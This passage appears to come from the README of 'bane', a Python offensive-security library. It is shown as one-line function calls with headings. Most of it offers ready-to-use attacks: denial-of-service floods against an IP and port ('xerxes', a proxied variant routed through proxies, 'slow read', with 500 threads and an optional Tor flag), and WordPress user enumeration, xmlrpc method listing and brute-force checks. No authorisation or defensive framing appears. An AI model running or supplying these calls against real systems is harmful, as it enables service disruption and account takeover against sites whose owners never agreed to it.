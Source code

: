 <div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.xerxes(IP, p= port , duration= 300 ,set_tor=False , threads=500 , timeout=5 )
</pre></div>
<h4>Xerxes attack through proxies:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.prox_xerxes(IP, p= port , duration= 300 , threads=500 , timeout=5 )
</pre></div>
<h4>Slow read attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.slow_read(IP, p= port , duration= 300 , set_tor=False , threads=500 , timeout=5 )
</pre></div>

# WordPress testing:

<h4>Full scan:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.get_wp_infos(link , timeout=15 )
</pre></div>


<h4>Users list:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wp_users(link , timeout=15 )
</pre></div>

<h4>User's details:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wp_user(link , user=1 , timeout=15 )
</pre></div>

<h4>All xmlrpc's available functions:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wp_xmlrpc_methods(link , timeout=15 )
</pre></div>

<h4>Check if it's possible to performe BruteForce attack through xmlrpc:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wp_xmlrpc_bruteforce(link , timeout=15 )
</pre></div>

<h4>Check if it's possible to performe Mass BruteForce attack through xmlrpc:</h4>

